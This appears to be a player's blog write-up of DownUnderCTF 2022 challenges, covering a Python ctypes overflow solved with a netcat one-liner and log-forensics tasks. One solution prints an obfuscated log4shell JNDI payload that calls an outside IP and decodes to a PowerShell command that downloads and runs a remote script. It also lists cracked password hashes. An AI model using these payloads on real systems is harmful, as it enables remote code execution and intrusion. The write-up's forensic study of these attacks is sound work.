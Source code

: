 ```yaml
---
layout: post
title: DownUnderCTF 2022
---
```


- [https://ctftime.org/event/1625](https://ctftime.org/event/1625)
- Sep 23 to Sep 25
- Played with wackers
- Ranking: 392/1407 with 750 points

# My Solves/Writeups

## Pwn

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| pwn/babyp(y)wn | beginner | 50 | [jump](#pwnbabypywn) |

## Rev

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| rev/source-provided | beginner | 50 | [jump](#revsource-provided) |

## DFIR

| Challenge Name | Difficulty | Points | Writeup |
|---|---|---|---|
| dfir/Shop-Knock-Knock-Knock | easy | 50 | [jump](#dfirshop-knock-knock-knock) |
| dfir/Shop-Logging-for-what? | easy | 50 | [jump](#dfirshop-logging-for-what) |
| dfir/Shop-I'm-just-looking! | easy | 50 | [jump](#dfirshop-im-just-looking) |
| dfir/Shop-Oi!-Get-out-of-there! | medium | 50 | [jump](#dfirshop-oi-get-out-of-there) |

## Writeups
### pwn/babypywn

Python is memory safe, right?

Author: joseph#8210

Attachments: [babypywn.py](https://play.duc.tf/files/75063ab9b30ed274dd69906496ce0c15/babypywn.py?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjozN30.YzHRZQ.fB3_7LN6wR9a1LOd2JRyUidbaC4)

### Solution

Downloading the python file and looking at it, I recognized this as a simple buffer overflow challenge but written in python.

The program was using the ctypes python library which allowes it to act like c.

It creates a buffer size for the input to stay in.
```py
buf1 = c_buffer(512)
buf2 = c_buffer(512)
```

The program is looking for the string "DUCTF" in the buffer of buf2 which means if we can just overflow 512 bytes of buf1 and add a DUCTF after, it should print the flag.

The alternative I used was just spamming DUCTF using python: ```python2 -c "print 'DUCTF'*200" | nc 2022.ductf.dev 30021```

```Flag: ```

### rev/source-provided

In this reversing challenge, source is provided.

Author: joseph#8210

Attachments: [chall](https://play.duc.tf/files/77264a4412dde0c22c878269e1fc9c11/chall?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1N30.YzHR2Q.ocJkP7Re57zZU4nVaGuD10gK4ec)
[chall.S](https://play.duc.tf/files/2c136d630abb9d5d25109c2b6424cc5e/chall.S?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo1OH0.YzHSag.bHrtRmikcYkKQA7n4ZRreyj3UT8)

### Solution



### dfir/shop-knock-knock-knock

Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```Although this had the most solves, it was the weidest/ hardest one for me.```

Looking at the file, we see that there are many different payloads sent to the web server that are of form jndi:smth// 

Searching up on google for jndi it returns results of the log4shell attack that happened last year

```The ip can also be found from looking at the password change attempts```

We know that these attacks are hacker attacks, so looking at the ip associated with the attack payload we can find the ISP of the attacker ip by running whois on the ip.

After several results of emails we get the answer

Flag: ```abuse@telstra.net```

### dfir/shop-logging-for-what

We implemented a basic IPS to help protect our site from new attacks.

Somehow, a newer more sophisticated version of a regularly observed attack was successfully executed against the website.

What is the name of the script that was run?

Flag format: Name of the script that was run, case sensitive.

Author: Conletz#5420

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

Knowing from the previous challenge that the attacks were log4shell attacks in the form of jndi:smth, we are probably looking for a version of the payload that can bypass a filter.

Scrolling through the file, we come across a payload that is also in the useragent section but looks obfuscated to bypass the filter.

`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5le
GUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}`

The end of this payload looks like base64 so decrypt the base64

```powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40');"```

This part felt kinda guessy to me but the answer for the script run was just the part after the link

```Flag: pTCNp5p6LP0d7qA77yvb4SHf40```

### dfir/shop-im-just-looking

We've seen some vulnerability scanning activity against us!

What was the name of the tool used?

Flag format: Name of the tool used, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

```This challenge felt even more guessy to me as I found the answer by trying to do the password challenge instead.```

Searching through the json file during the password challenge of this file, I was looking for some wordlist that I could maybe use to crack the hashes.

Grepping txt from the json file, I got the result of nuclei.txt.

I searched up nuclei.txt on google thinking I could download this wordlist and use it to crack the hashes but when I searched it up, I instead find a vulnerability scanner on github called nuclei. [nuclei](https://github.com/projectdiscovery/nuclei)

This challenge description was asking for a vulnerability scanner, so nuclei seemed fit and it ended up being the flag.

```Flag: nuclei```

### dfir/shop-oi-get-out-of-there

Someone was able to successfully break into the admin account!

Do you know what the old password was?

Flag format: The password, case insensitive

Author: Cake#4096

Attachments: [DownUnderShop.JSON](https://play.duc.tf/files/93b83fc0ff46c9bd182b8afc39dd320e/DownUnderShop.JSON?token=eyJ1c2VyX2lkIjozNTUxLCJ0ZWFtX2lkIjoxNTQwLCJmaWxlX2lkIjo3MX0.YzMa_w.g9yOj7tPU6Oz6srTZeZB8Op2gOI)

### Solution

After searching through the files on the previous challenges, I realized that there were these weird links pointing to /changepassword and had base64 text after the ref query parameter.

Using grep to search for "ref" and grabbing all the base64 text and decoding the base64 returns some password-like text.

```
b506fb0cabb60e9f1132daa72df4d567:6d7c5b3e796d833b3fdd40f4ce57facd
2ac9cb7dc02b3c0083eb70898e549b63:6d7c5b3e796d833b3fdd40f4ce57facd
3dc919de186d1a8ee62fff92d80839f7:6d7c5b3e796d833b3fdd40f4ce57facd
7a581ac4d8cb3bfc596fce9afb115fd2:6d7c5b3e796d833b3fdd40f4ce57facd
```

At first I thought this was a LM:NTLM hash because of the ldap references in the json file but trying to crack using hashcat/ john didn't work.

After, I tried plugging the hashes into hashes.com (cracked website for cracking passwords), and it cracked all of the passwords.

```
2ac9cb7dc02b3c0083eb70898e549b63:Password1
3dc919de186d1a8ee62fff92d80839f7:ozzieozzieozzie
7a581ac4d8cb3bfc596fce9afb115fd2:downunder2
b506fb0cabb60e9f1132daa72df4d567:crackstation
```

Submitting each of the passwords, one of them worked.

```Flag: ozzieozzieozzie```
